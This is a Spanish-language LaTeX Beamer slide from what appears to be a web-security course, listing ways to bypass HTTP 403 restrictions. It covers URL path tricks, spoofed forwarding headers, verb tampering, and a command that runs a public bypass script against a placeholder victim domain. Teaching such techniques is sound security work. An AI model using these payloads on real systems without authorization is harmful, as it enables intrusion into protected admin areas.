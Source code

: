 \documentclass[aspectratio=169,10pt]{beamer}
\begin{document}
\begin{frame}[allowframebreaks]{Bypass 403 Forbidden}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item ¿Por qué existe el 403?
  \item El servidor entiende la petición pero el ACL, el WAF o la configuración
  \item del servidor bloquea el acceso por ruta o por IP.
  \item Bypass por manipulación de ruta URL
  \item /admin $\rightarrow$ 403 (bloqueado)
  \item //admin $\rightarrow$ puede pasar (doble slash)
  \item /admin/ $\rightarrow$ trailing slash (regex incompleta)
  \item /./admin $\rightarrow$ path traversal $\rightarrow$ el backend normaliza a /admin
  \item /\%2fadmin $\rightarrow$ slash URL-encoded
  \item /admin\%20 $\rightarrow$ espacio trailing en URL
  \item /ADMIN $\rightarrow$ uppercase (case-insensitive server)
  \item Bypass por cabeceras de proxy/reenvío
  \item X-Forwarded-For: 127.0.0.1
  \item X-Real-IP: 127.0.0.1
  \item X-Original-URL: /admin
  \item X-Rewrite-URL: /admin
  \item Forwarded: for=127.0.0.1
  \item Bypass por verbo HTTP
  \item GET /admin $\rightarrow$ 403 $\rightarrow$ probar: POST / PUT / PATCH / HEAD / OPTIONS
  \item Verb tampering: ANYTHINGVALID /admin HTTP/1.1
  \item Herramienta automatizada
  \item git clone https://github.com/iamj0ker/bypass-403
  \item bash bypass-403.sh victima.com /admin
  \item $\rightarrow$ Prueba automáticamente todas las variantes conocidas
  \item github.com/yunemse48/403bypasser
  \end{itemize}
\end{frame}
\end{document}
